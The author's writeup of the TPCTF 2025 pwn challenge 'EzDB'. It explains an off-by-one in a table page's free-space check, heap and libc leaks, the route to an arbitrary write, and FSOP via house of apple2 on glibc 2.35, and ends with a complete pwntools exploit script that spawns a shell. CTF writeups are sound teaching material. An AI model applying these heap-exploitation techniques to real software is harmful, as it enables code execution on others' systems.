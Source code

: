 ```yaml
---
date: 2025-03-09 10:21:56
layout: post
title: TPCTF 2025 EzDB Author's Writeup
subtitle: 
description: >-
    Had given an arbitrary write primitive... So be satisfied, not a difficult problem
image: >-
  /assets/img/uploads/rainy_street.jpg
optimized_image: >-
  /assets/img/uploads/rainy_street.jpg
category: ctf
tags:
  - pwn
  - tpctf 2025
  - heap exploitation
author: rosayxy
paginate: true
---
```

Rosayxy is the author of the TPCTF pwn challenge of EzDB, here is the writeup.     

## overview
This challenge is mainly inspired by the DB course of THU CST. Some resources of the course is [here](https://github.com/thu-db)    

This challenge implements a table page to store stuff, with such basic functionalities as creating and removing a page, creating and editing entries in the page and such.     

## vulnerability
At function `TablePage::InsertRecord`, it checks the following condition `TablePage::GetFreeSpaceSize(this) < (unsigned __int64)(Size + 4LL)`, whereas the `TablePage::GetFreeSpaceSize` is defined as below   
```c
__int64 __fastcall TablePage::GetFreeSpaceSize(TablePage *this)
{
  return *((_QWORD *)this + 2) - *((_QWORD *)this + 1) + 1LL;
}
```
Actually, in the source code `*((_QWORD *)this + 2)`, `*((_QWORD *)this + 1)` are marked respectively as the higher and lower pointer of this page. We see its intialization below:    

```c
TablePage *__fastcall TablePage::Init(TablePage *this)
{
  TablePage *result; // rax

  *(_QWORD *)this = malloc(0x400uLL);
  *((_QWORD *)this + 1) = *(_QWORD *)this;
  *((_QWORD *)this + 2) = *(_QWORD *)this + 0x400LL;
  result = this;
  *((_QWORD *)this + 3) = *(_QWORD *)this;
  return result;
}
```
So we get to know the GetFreeSize should be returning `*((_QWORD *)this + 2) - *((_QWORD *)this + 1)`. When we have `TablePage::GetFreeSpaceSize(this) == (unsigned __int64)(Size + 4LL)`(the 4 is the slot size here), we have an overflow into the highest byte of the newest slot, which is defined as below in the source code    
```c
struct Slot{
    unsigned short offset;
    unsigned short size;
};
```
So we can modify the size into a large value of the newest slot. This gives us a heap oob read & write with a big-enough-for-everything offset using the `TablePage::EditRecord` and `TablePage::GetRecord` functions.    

## leak
We can stuff 7 pages into tcache bin first, when we free the 8th page, it goes into the unsorted bin and the fd and bk pointers are libc-related addresses. We can leak the libc base address from it.    
The TablePage object's page_, lower_, upper_ pointers are all heap addresses. We can leak the heap base address here.    

## exploit
### convert to arbitrary write
We can convert a heap-arbitrary-write primitive to an arbitrary-write primitive by editing the upper_ pointer of a TablePage object at a higher heap address. We edit the upper_ pointer to an arbitrary address plus some offset. Then we can call `TablePage::InsertRecord` function of that TablePage object to write the content to the arbitrary address.    

### FSOP
Because it is glibc-2.35, we choose to write _IO_list_all to a heap address and construct a fake IO_file object at the address.     
The construct the fake IO_file using the idea of [house of apple2](https://bbs.kanxue.com/thread-273832.htm), then we return from the main function to trigger the FSOP, and guess what? We get the shell!    

## exp
Note: I was having a fascinating Shakespeare elective course and multitasking when writing the exp. At first, I didn't realize that the overflow in the page would overflow into the high byte rather than the low byte of the slot's size, so some parts of the exp might be a bit messy. My apologies :(     

```py
from pwn import*
context(log_level='debug',arch='amd64',os='linux')
p = process("./db")
# p = remote("61.147.171.105",52702)
libc = ELF("./libc.so.6")
def create_table(idx):
    p.recvuntil(">>> ")
    p.sendline("1")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def remove_table(idx):
    p.recvuntil(">>> ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def insert_record(idx,len,content):
    p.recvuntil(">>> ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

def get_record(idx,slot_id):
    p.recvuntil(">>> ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))

def edit_record(idx,slot_id,len,content):
    p.recvuntil(">>> ")
    p.sendline("5")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

# leak libc first
# 整8个塞 tcache 里面吧
for i in range(9):
    create_table(i)
for i in range(203):
    insert_record(0,1,"A")
#insert vuln record
insert_record(0,6,b"\x02"*6)
for i in range(8):
    remove_table(8-i)

get_record(0,203)
p.recvline()
leaks = p.recv(0x140)
# 0x1d 0x106
heap_leak = u64(leaks[0xf2:0xf2 + 8])
print(hex(heap_leak))
libc_leak = u64(leaks[0x11a:(0x11a + 8)])
print(hex(libc_leak))
heap_base = heap_leak - 0x12320
# 0x7fbd726c7ce0 - 0x7fbd724ad000
libc_base = libc_leak - 0x21ace0
print(hex(heap_base))
print(hex(libc_base))
# 把所有堆块都占住 然后改 page_ 指针
for i in range(8):
    create_table(i+1)
# 占一个堆块写 fake IO_file
fake_io_addr = heap_base + 0x12730 +0x430 - 0xf0 # TODO
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x21ca60) # lock
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x216f40+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)+p64(0) # 0xf0
# 直接溢出改 page_ 指针
insert_record(1,0xf0,fake_io_file)

payload = b"\x02"*6+b"a"*203 + p64(0)+p64(0x31)+p64(heap_base + 0x12320)*2+p64(libc_base + libc.sym["_IO_list_all"]+0x8)+p64(heap_base + 0x12320)
edit_record(0,203,0x140,payload)
insert_record(8,0x8,p64(fake_io_addr))

# trigger!
p.recvuntil(">>> ")
p.sendline("6")

p.interactive()
```

## conclusion
Thank everyone for participating in the TPCTF game! Spring is coming and hope you have a nice time!    
[Here](https://github.com/Rosayxy/EzDB-SourceCode-TPCTF2025/tree/main) is the source code   